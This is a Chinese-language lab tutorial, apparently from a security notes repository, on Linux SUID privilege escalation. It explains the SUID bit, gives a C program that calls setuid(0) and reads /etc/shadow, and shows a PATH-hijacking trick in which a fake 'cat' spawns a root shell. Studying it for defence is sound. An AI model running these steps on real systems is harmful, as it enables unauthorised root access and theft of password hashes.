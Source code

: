 ## 1、简介

SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行。

SUID是一种对二进制程序进行设置的特殊权限，可以让二进制程序的执行者临时拥有属主的权限（仅对拥有执行权限的二进制程序有效）。例如，所有用户都可以执行passwd命令来修改自己的用户密码，而用户密码保存在/etc/shadow文件中。仔细查看这个文件就会发现它的默认权限是000，也就是说除了root管理员以外，所有用户都没有查看或编辑该文件的权限。但是，在使用passwd命令时如果加上SUID特殊权限位，就可让普通用户临时获得程序所有者的身份，把变更的密码信息写入到shadow文件中。这很像我们在古装剧中见到的手持尚方宝剑的钦差大臣，他手持的尚方宝剑代表的是皇上的权威，因此可以惩戒贪官，但这并不意味着他永久成为了皇上。因此这只是一种有条件的、临时的特殊权限授权方法。

c源代码 suid.c

```c
cat << EOF >suid.c
#include<stdlib.h>
#include <unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}
EOF
```

以 root进行编译和权限设置

## 2、编译

```bash
gcc suid.c -o suid-exp
```

## 3、设置suid位

```bash
chmod 4775 suid-exp 
```

s属性 标识这个程序有suid的属性

```bash
ls -l suid-exp
find /tmp -perm -u=s -type f 2>/dev/null
```

![image-20210426224653867](../acess/image-20210426224653867.png) 

## 4、切换用户执行

![image-20210426225117897](../acess/image-20210426225117897.png)

## 5、劫持环境变量提权

因为system函数是继承环境变量 可以通过替换环境变量可以达到执行任意命令。
创建一个文件

```bash
echo "/bin/bash">cat && chmod 777 cat 
```

在tmp目录下建立一个文件cat 它会执行一个shell

查看当前环境变量

```bash
echo $PATH 
```

把当前tmp目录增加到环境变量

```bash
export PATH=.:$PATH
```

设置了PATH 执行cat的时候会优先从当前目录下查找程序。所以cat命令会被劫持，

就可以执行任意命令

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml8972\wps5.jpg) 

